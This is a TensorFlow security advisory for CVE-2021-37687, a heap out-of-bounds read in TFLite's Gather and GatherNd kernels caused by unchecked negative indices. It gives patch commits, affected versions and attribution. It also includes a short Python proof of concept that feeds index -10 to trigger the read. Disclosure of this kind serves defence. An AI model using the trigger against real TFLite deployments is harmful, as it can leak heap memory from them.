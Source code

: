 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-161.md
## TFSA-2021-161: Heap OOB in TFLite's `Gather*` implementations

### CVE Number
CVE-2021-37687

### Impact
TFLite's [`GatherNd`
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather_nd.cc#L124)
does not support negative indices but there are no checks for this situation.

Hence, an attacker can read arbitrary data from the heap by carefully crafting a
model with negative values in `indices`.

Similar issue exists in [`Gather`
implementation](https://github.com/tensorflow/tensorflow/blob/149562d49faa709ea80df1d99fc41d005b81082a/tensorflow/lite/kernels/gather.cc).

```python
import tensorflow as tf
import numpy as np
tf.compat.v1.disable_v2_behavior()

params = tf.compat.v1.placeholder(name="params", dtype=tf.int64, shape=(1,))
indices = tf.compat.v1.placeholder(name="indices", dtype=tf.int64, shape=())

out = tf.gather(params, indices, name='out')

with tf.compat.v1.Session() as sess:
   converter = tf.compat.v1.lite.TFLiteConverter.from_session(sess, [params, indices], [out])
   tflite_model = converter.convert()

interpreter = tf.lite.Interpreter(model_content=tflite_model)
interpreter.allocate_tensors()

input_details = interpreter.get_input_details()
output_details = interpreter.get_output_details()

params_data = np.reshape(np.array([1], dtype=np.int64), newshape=(1,))
indices_data = np.reshape(np.array(-10, dtype=np.int64), newshape=())
interpreter.set_tensor(input_details[0]['index'], params_data)
interpreter.set_tensor(input_details[1]['index'], indices_data)

interpreter.invoke()
```

### Patches
We have patched the issue in GitHub commits
[bb6a0383ed553c286f87ca88c207f6774d5c4a8f](https://github.com/tensorflow/tensorflow/commit/bb6a0383ed553c286f87ca88c207f6774d5c4a8f)
and
[eb921122119a6b6e470ee98b89e65d721663179d](https://github.com/tensorflow/tensorflow/commit/eb921122119a6b6e470ee98b89e65d721663179d).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
